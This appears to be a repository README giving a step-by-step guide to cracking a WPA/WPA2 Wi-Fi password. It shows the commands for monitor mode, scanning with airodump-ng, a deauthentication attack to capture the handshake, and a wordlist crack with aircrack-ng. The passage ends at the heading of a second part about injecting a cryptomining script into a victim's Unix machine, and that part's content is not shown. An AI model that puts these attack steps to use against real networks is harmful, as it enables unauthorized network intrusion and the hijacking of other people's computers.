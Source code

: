 # Gaining access to WPA/WPA2 with short/easy password and inject mining script to Unix victim
Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6.   Crack the password. 
6a. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   a. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   b. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering. 

6b. Then compare it with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
Part 2. Injecting malicious script to victim machine.

